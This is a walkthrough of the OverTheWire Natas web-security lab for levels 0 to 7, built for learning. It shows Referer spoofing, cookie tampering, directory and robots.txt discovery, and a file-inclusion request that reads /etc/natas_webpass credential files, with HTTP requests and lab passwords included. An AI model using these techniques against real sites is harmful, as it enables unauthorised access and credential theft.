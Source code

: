 # OverTheWire Natas
OverTheWire Natas walkthrough

After the Bandit adventure, it's time to continue with Natas and web stuff :).

Natas teaches the basics of serverside web-security.

Each level of natas consists of its own website located at http://natasX.natas.labs.overthewire.org, where X is the level number. There is no SSH login. To access a level, enter the username for that level (e.g. natas0 for level 0) and its password.

Each level has access to the password of the next level. Your job is to somehow obtain that next password and level up. All passwords are also stored in /etc/natas_webpass/. E.g. the password for natas5 is stored in the file /etc/natas_webpass/natas5 and only readable by natas4 and natas5.

Start here:

Username: natas0
Password: natas0
URL:      http://natas0.natas.labs.overthewire.org

When we log in with the credentials, we get presented with and hint on the page: "You can find the password for the next level on this page.
".
So when we inspect elements we can easily see the password for the next level:
```html
<div id="content">
You can find the password for the next level on this page.

<!--The password for natas1 is 0nzCigAq7t2iALyvU9xcHlYN4MlkIwlq -->
</div>
```

# Natas 1

You can find the password for the next level on this page, but rightclicking has been blocked!

Luckily we can still open the developers tools just fine in the browser itself :).

```html
<div id="content">
You can find the password for the
next level on this page, but rightclicking has been blocked!

<!--The password for natas2 is TguMNxKo1DSa1tujBLuZJnDUlCcUAPlI -->
</div>
```

# Natas 2

There is nothing on this page 

```html
<div id="content">
There is nothing on this page
<img src="files/pixel.png">
</div>
```
But there is a file! I don't see anything special about the file directly though. We are in luck though, the directory containing the .png is open for the public (http://natas2.natas.labs.overthewire.org/files/) and there is a users.txt file in there.
```txt
# username:password
alice:BYNdCesZqW
bob:jw2ueICLvT
charlie:G5vCxkVV3m
natas3:3gqisGdR0pjm6tpkDKdIWO2hSvchLeYH
eve:zo4mJWyNj2
mallory:9urtcpzBmH
```

# Natas 3

There is nothing on this page

```html
<div id="content">
There is nothing on this page
<!-- No more information leaks!! Not even Google will find it this time... -->
</div>
```
That is interresting, google normally scrapes websites but checks robots.txt for useragents that aren't allowed to scrape and what they aren't allowed to scrape. So let's check it.
http://natas3.natas.labs.overthewire.org/robots.txt contains: 
```txt
User-agent: *
Disallow: /s3cr3t/
```
Let's check the dir, and it contains an users.txt!
```txt
natas4:QryZXc2e0zahULdHrtHxzyYkj59kUxLQ
```

# Natas 4 

Access disallowed. You are visiting from "http://natas4.natas.labs.overthewire.org/index.php" while authorized users should come only from "http://natas5.natas.labs.overthewire.org/"

With this challenge we'll need to use burpsuite to intercept the package and modify it a bit. We know from the hint the site gives us that we need to access the site from: "http://natas5.natas.labs.overthewire.org/". We however don't have access to this page due to us not having the password.

However, when we look into burpsuite we'll see the packet we try to send is:
```http
GET /index.php HTTP/1.1
Host: natas4.natas.labs.overthewire.org
Authorization: Basic bmF0YXM0OlFyeVpYYzJlMHphaFVMZEhydEh4enlZa2o1OWtVeExR
Accept-Language: en-GB,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://natas4.natas.labs.overthewire.org/index.php
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
```
We can see here that the packet also has an Referer header, so let's change that to: "http://natas5.natas.labs.overthewire.org/" and resend the packet.
```html
Access granted. The password for natas5 is 0n35PkggAPm2zbEpOU802c0x0Msn1ToK
```

# Natas 5

Access disallowed. You are not logged in

For this level we'll open burpsuite again. And looking at the package we send when trying to refresh the page we'll see:
```http
GET / HTTP/1.1
Host: natas5.natas.labs.overthewire.org
Cache-Control: max-age=0
Authorization: Basic bmF0YXM1OjBuMzVQa2dnQVBtMnpiRXBPVTgwMmMweDBNc24xVG9L
Accept-Language: en-GB,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Cookie: loggedin=0
Connection: keep-alive
```
We see here a cookie that displays: "loggedin=0", let's change that 0 into an 1 and send the packet away!
```html
Access granted. The password for natas6 is 0RoJwHdSKWFTYR5WuiAewauSuNaBXned
```

# Level 6

```html
<div id="content">


<form method="post">
Input secret: <input name="secret"><br>
<input type="submit" name="submit">
</form>

<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
```
The extra sourcecode:
```php
<?

include "includes/secret.inc";

    if(array_key_exists("submit", $_POST)) {
        if($secret == $_POST['secret']) {
        print "Access granted. The password for natas7 is <censored>";
    } else {
        print "Wrong secret";
    }
    }
?>
```
If we'll try to send a random secret we can once again use burpsuite, however. This time we'll intercept the response packet and there we'll see:
```html
<script>var wechallinfo = { "level": "natas6", "pass": "0RoJwHdSKWFTYR5WuiAewauSuNaBXned" };</script>
```
Which is quite funny since that is censored in the source code. However, this has no benefit for us.

But when we look at the sourcecode again we can see a secrets file: "include "includes/secret.inc";", so let's visit that on: "include "includes/secret.inc";"
```php
<?
$secret = "FOEIUWGHFEEUHOFUOIU";
?>
```
So let's put that secret and we'll get:
```html
Access granted. The password for natas7 is bmg8SvU1LizuWjx3y7xkNERkHxGre0GS
```

# Level 7
```html
<div id="content">

<a href="index.php?page=home">Home</a>
<a href="index.php?page=about">About</a>
<br>
<br>

<!-- hint: password for webuser natas8 is in /etc/natas_webpass/natas8 -->
</div>
```
When clicking on the home button the url changes to: "http://natas7.natas.labs.overthewire.org/index.php?page=home" but if we change "home" into "/etc/natas_webpass/natas8" (http://natas7.natas.labs.overthewire.org/index.php?page=/etc/natas_webpass/natas8). We get the password:
```html
xcoXLmzMkoIP9D7hlgPlh9XD7OgLAe5Q
```

# Level 8